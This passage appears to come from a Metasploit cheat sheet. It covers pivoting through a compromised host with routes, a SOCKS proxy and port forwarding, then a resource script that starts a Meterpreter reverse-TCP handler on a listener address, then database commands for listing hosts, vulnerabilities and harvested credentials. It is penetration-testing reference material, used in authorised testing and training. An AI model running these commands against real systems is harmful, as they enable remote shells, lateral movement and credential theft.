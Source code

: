 ### 3. Pivoting
```bash
# Add route through compromised host
route add 10.1.1.0/24 1

# Use socks proxy
use auxiliary/server/socks4a
set SRVHOST 127.0.0.1
set SRVPORT 1080
run -j

# Port forwarding
portfwd add -l 8080 -p 80 -r 10.1.1.100
```

## Resource Scripts

### Create automation scripts
```bash
# Create resource script (commands.rc)
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
exploit -j

# Run resource script
msfconsole -r commands.rc
```

## Database Operations

### Managing scan data
```bash
# Show hosts
hosts

# Show services
services

# Show vulnerabilities
vulns

# Show credentials
creds

# Export data
db_export -f xml output.xml
```
